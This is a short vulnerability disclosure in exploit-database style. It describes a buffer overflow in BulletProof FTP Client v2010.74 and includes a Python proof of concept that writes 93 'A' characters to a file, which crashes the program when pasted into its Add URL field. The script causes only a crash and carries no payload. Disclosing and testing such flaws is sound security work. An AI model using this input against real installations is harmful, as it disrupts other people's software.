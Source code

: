 ```yaml
---
layout: post
title: BulletProof FTP Client v2010.74 - Buffer Overflow (PoC)
date: 2023-09-14
category: exploit
---
```


# Exploit Title: BulletProof FTP Client v2010.74 - Buffer Overflow (PoC)
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 14.09.2023
# Vendor Homepage: http://www.bpftp.com
# Software Link: https://download.bpftp.com/mirrors.html?file=bpftpclient_install.exe
# Tested Version: v2010.74 (latest)
# Tested on: Windows 2019 Server 64bit

### Steps to Reproduce

1. Open the BulletProof FTP Client application.
2. Click on **Add URL**.
3. Paste the content of `poc.txt` and save it.
4. The application should crash due to a buffer overflow.

### Proof of Concept (PoC)

The following script generates a `poc.txt` file containing a payload that, when loaded into the **Add URL** field, triggers the buffer overflow and causes the application to crash.

```python
#!/usr/bin/python

poc = 'A' * 93

try:
    file = open("poc.txt", "w")
    file.write(poc)
    file.close()
    print("POC is created")
except Exception as e:
    print("POC is not created:", e)
